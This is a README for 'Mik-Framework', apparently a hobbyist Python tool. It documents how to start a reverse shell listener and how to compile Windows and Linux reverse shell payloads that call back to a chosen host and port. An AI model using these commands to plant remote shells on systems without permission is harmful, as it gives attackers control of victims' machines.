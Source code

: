 # Mik-Framework

Mik-Framework is a Python tool for starting a reverse shell server and compiling payloads for Windows and Linux.

## Usage

To start the reverse shell server, run the following command:

```
~/Mik-Framework $ python3 mikconsole.py
```

This will open the Mik-Framework console, where you can interact with the available modules. To start the reverse shell server, follow these steps:

1. Select the revshell module:
   ```
   mik> use revshell
   ```

3.  Configure the host and port:
```
mik-revshell> set host 0.0.0.0
mik-revshell> set port 4545
```

4. Run the server:
   ```
   mik-revshell> run
   ```

## Payload Compilation

### Windows

To compile a payload for Windows, use the following command:

```
python3 nous.py -p windows_revshell --host 127.0.0.1 --port 4545 -o payload.c --mingw
```

### Linux

To compile a payload for Linux, use the following command:

```
python3 nous.py -p linux_revshell --host 127.0.0.1 --port 4545 -o payload.c
```

Make sure to replace 127.0.0.1 with the IP address of your server and 4545 with the port you want to use.

## Screenshots
linux revshell
![Linux](https://raw.githubusercontent.com/mikelkarma/Mik-Framework/main/screenshots/Screenshot_2024-03-10-23-02-26-120_com.termux.jpg)

windows revshell
![Windows](https://raw.githubusercontent.com/mikelkarma/Mik-Framework/main/screenshots/Screenshot_2024-03-10-23-03-42-664_com.termux~2.jpg)
## Creating New Modules

You can create new modules to extend the functionality of Mik-Framework. Simply follow the existing module structure and integrate it into the framework.
